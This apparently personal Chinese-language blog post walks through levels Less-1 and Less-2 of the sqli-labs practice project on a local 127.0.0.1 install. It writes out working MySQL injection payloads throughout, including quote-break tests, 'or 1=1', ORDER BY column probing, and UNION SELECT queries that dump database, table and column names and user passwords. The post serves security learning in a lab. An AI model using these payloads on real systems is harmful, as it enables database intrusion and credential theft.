这个篇博客记录一下学习mysql-injection的过程
项目地址： https://github.com/Audi-1/sqli-labs
<!--more-->
## Less-1
- 登陆"127.0.0.1/sqli-labs-master/Less-1/?id=1"

- 而在链接之后直接添加'
效果如图

经过sql语句构造后形成'1''LIMIT 0,1错误
此时查询结果为字符型select username,password  from users where id='$_GET[id]' limit 0,1
- 进入"127.0.0.1/sqli-labs-master/Less-1/?id=1'or 1=1- -+"

此时的sql语句成为SElECT * where id='1'or 1=1--+ LIMIT 0,1并正常返回数据
- 使用orderby语句，进入"127.0.0.1/sqli-labs-master/Less-5/?id=1'order by 3 - -+"

而进入"127.0.0.1/sqli-labs-master/Less-1/?id=1'order by 4 - -+"

说明一共有三列数据，输入4结果会超出
- 爆数据库名操作，进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(schema_name)  from information_schema.schemata) , 3  - -+"
此时sql语句成为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata- -+ LIMIT0,1
其中UNION操作符用于合并两个或多个SELECT语句的结果集

- 爆security下所有表名 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(table_name)  from information_schema.tables where table_schema = 'security') , 3  - -+"
此时sql语句为为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'- -+ LIMIT0,1

- 爆user表的列 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1, (select group_concat(column_name)  from information_schema.columns where table_name = 'user') , 3  - -+"
此时sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'- -+ LIMIT0,1

- 爆用户名与密码 进入"127.0.0.1/sqli-labs-master/Less-1/?id=-1'union select 1,username,password from users where id=2- -+"
此时sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2- -+ LIMIT0,1

## Less-2
- 进入"127.0.0.1/sqli-lavs-master/Less-2"

- 根据提示传入numeric参数id

- 加入单引号进行测试

看到错误check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1' at line 1
- 采用注释方法闭合单引号

还是出现错误，可以与LESS1对比想到这是一个数字型而不是字符型注入，发送的SQL语句是select * from users where id=$_GET[id]（举例）
- 除去单引号

- 猜字段长度


字段长度为3
- 爆数据库，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(schema_name) from information_schema.schemata) , 3 --+

- 爆表名，1277.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(table_name) from information_schema.tables where table_schema = 'security') , 3 - -+

- 爆字段名，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, (select group_concat(column_name) from information_schema.columns where table_name = 'users') , 3 --+

- 爆字段内容，127.0.0.1/sqli-labs-master/Less-2/?id=-1 union select 1, username,password from users where id=2 --+

## Less-3
